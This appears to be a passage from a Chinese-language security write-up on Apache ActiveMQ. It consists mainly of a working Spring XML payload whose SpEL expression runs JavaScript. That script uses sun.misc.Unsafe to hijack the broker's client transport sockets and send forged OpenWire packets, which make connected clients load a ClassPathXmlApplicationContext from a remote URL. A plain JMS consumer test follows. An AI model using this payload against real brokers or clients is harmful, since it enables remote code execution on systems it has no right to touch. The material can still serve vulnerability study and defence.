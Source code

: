 ```xml
        <property name="String" value="#{T(javax.script.ScriptEngineManager).newInstance().getEngineByName('js').eval(&quot;function getunsafe() {var unsafe = java.lang.Class.forName('sun.misc.Unsafe').getDeclaredField('theUnsafe');unsafe.setAccessible(true);return unsafe.get(null);} var unsafe = getunsafe(); brokerRegistry = org.apache.activemq.broker.BrokerRegistry.getInstance();brokers = brokerRegistry.getBrokers();for(key in brokers){   brokerService = brokers.get(key);  try{ f = brokerService.getClass().getDeclaredField('shutdownHook'); }catch(e){f = brokerService.getClass().getSuperclass().getDeclaredField('shutdownHook');}   f.setAccessible(true);   shutdownHook = f.get(brokerService);   threadGroup = shutdownHook.getThreadGroup();   f = threadGroup.getClass().getDeclaredField('threads'); threads = unsafe.getObject(threadGroup, unsafe.objectFieldOffset(f)); for(key in threads){       thread = threads[key];       if(thread == null){           continue;       }       threadName = thread.getName();       if(threadName.startsWith('ActiveMQ Transport: ')){           f = thread.getClass().getDeclaredField('target');                      tcpTransport = unsafe.getObject(thread, unsafe.objectFieldOffset(f));           f = tcpTransport.getClass().getDeclaredField('socket');           f.setAccessible(true);           socket = f.get(tcpTransport);           bos = new java.io.ByteArrayOutputStream();           dataOutput = new java.io.DataOutputStream(bos);           dataOutput.writeInt(1);           dataOutput.writeByte(31);    bs = new org.apache.activemq.openwire.BooleanStream();    bs.writeBoolean(true);  bs.writeBoolean(true);  bs.writeBoolean(true);  bs.writeBoolean(false);   bs.writeBoolean(true); bs.writeBoolean(false);  bs.marshal(dataOutput); dataOutput.writeUTF('bb');  dataOutput.writeUTF('aa');  dataOutput.writeUTF('org.springframework.context.support.ClassPathXmlApplicationContext');  dataOutput.writeUTF('http://localhost:8000/dddd');  dataOutput.writeShort(0);  socketOutputStream = socket.getOutputStream();           socketOutputStream.write(bos.toByteArray());         }   }   }&quot;)}"/>
    </bean>
</beans>
```

## [](#%E7%82%B9%E5%AF%B9%E7%82%B9%E6%B6%88%E8%B4%B9%E6%B5%8B%E8%AF%95 "点对点消费测试")点对点消费测试

```java
ConnectionFactory connectionFactory = new ActiveMQConnectionFactory(ActiveMQConnection.DEFAULT_USER,
        ActiveMQConnection.DEFAULT_PASSWORD, "tcp://localhost:61616");

Connection connection = connectionFactory.createConnection();
connection.start();
Session session = connection.createSession(false, Session.AUTO_ACKNOWLEDGE);
Destination destination = session.createQueue("tempQueue");
MessageConsumer consumer = session.createConsumer(destination);
consumer.setMessageListener(new MessageListener() {
    @Override
    public void onMessage(Message message) {

        try {
            message.acknowledge();
            TextMessage om = (TextMessage) message;
            String data = om.getText();
            System.out.println(data);
        } catch (JMSException e) {
            e.printStackTrace();
        }
    }
});
System.in.read();
session.close();
connection.close();
```
